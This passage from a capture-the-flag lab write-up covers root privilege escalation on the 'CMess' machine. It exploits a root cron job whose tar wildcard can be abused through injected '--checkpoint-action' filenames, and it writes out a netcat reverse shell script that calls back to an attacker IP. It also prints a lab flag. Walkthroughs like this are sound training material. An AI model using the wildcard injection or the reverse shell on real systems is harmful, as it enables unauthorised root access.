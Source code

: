 User flag: `thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}`

## Going root

Now we need to gain root access in order to obtain the root flag. I checked my sudo permissions with `sudo -l`, but we have none. The next thing I checked was `/etc/crontab` to see if any cronjobs are running and take a look at this:

~~~
andre@cmess:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
~~~

This cronjob runs every two minutes by `root`. This command is using wildcard (`*`) which selects all the files located in `/home/andre/backup`. Then all the files are compressed with `tar`. I took a look at [GTFOBins](https://gtfobins.github.io/) and it seems like we can take advantage of this mistake.

Due to existence of the wildcard, we can create files that will be interpreted as options for the `tar` command, to ultimately execute something similar to what we can see in GTFOBins:

~~~
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
~~~

Let's create a reverse shell in `/home/andre/backup`:

~~~
andre@cmess:~/backup$ cat > rshell << EOF
> #!/bin/bash
> rm /tmp/f
> mkfifo /tmp/f
> cat /tmp/f | /bin/sh -i 2>&1 | nc <YOUR IP> 4444 >/tmp/f
> EOF
andre@cmess:~/backup$ echo "" > "/home/andre/backup/--checkpoint=1"
andre@cmess:~/backup$ echo "" > "/home/andre/backup/--checkpoint-action=exec=sh rshell"
~~~

Now open a listener and wait for the cronjob to run. After a little while, we'll get a root shell:

